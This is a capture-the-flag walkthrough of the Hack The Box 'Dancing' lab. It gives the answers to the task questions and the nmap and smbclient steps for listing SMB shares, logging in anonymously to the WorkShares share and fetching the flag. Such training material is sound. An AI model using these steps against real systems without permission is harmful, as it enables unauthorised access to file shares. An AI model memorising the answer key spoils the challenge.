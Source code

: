 ## Quick Links
[HTB - Starting Point](https://app.hackthebox.com/starting-point)  
[Dancing Walkthrough](blob:https://app.hackthebox.com/2f78ca43-f96d-43ba-90e2-f44c38715bcc) 

## Preparation
1. Connect to the *Starting Point* VPN. See the [[Preparation]] documentation for instructions.
2. Spawn the *Dancing* machine in the *Starting Point* list.
3. Set a variable for the target machine's IP
	1. `export TARGET=<ip_address_of_target>`
	2. `echo $TARGET`
	3. `ping $TARGET` 

## Tasks
1. What does the 3-letter acronym SMB stand for?
	1. *Answer*: Server Message Block
2. What port does SMB use to operate at?
	1. *Answer*: 445 TCP
3. What is the service name for port 445 that came up in our Nmap scan?
	1. *Answer*: microsoft-ds
4. What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share?
	1. *Answer*: -L
5. How many shares are there on Dancing?
	1. *Answer*: 4
6. What is the name of the share we are able to access in the end with a blank password?
	1. *Answer*: WorkShares
7. What is the command we can use within the SMB shell to download the files we find?
	1. *Answer*: 
8. Submit root flag
	1. To obtain the root flag, combine the steps above:
		1. Run the `ping $TARGET` command to test connection
		2. Run the `nmap -sV $TARGET` to scan the target machine
		3. Verify installation of *smbclient*: `sudo apt-get install smbclient`
		4. List the shares on the target machine: `smbclient -L $TARGET` 
			1. The `-h` flag will show help for *smbclient*
			2. The -L flag lists the shares
		5. Attempt to login to each share:
			1. `smbclient \\\\$TARGET\\ADMIN$`
			2. `smbclient \\\\$TARGET\\C$` 
			3. `smbclient \\\\$TARGET\\WorkShares` - success
		6. Use the `ls` command to search through the directories in the share
			1. Note: use `help` to list all the commands used in smb
		7. Once the flag is found, use `get <name_of_file>` to pull the file to the directory location where the `smbclient` command was completed
		8. Use `cat <name_of_file>` to display the flag
		9. Success: Machine Pwned!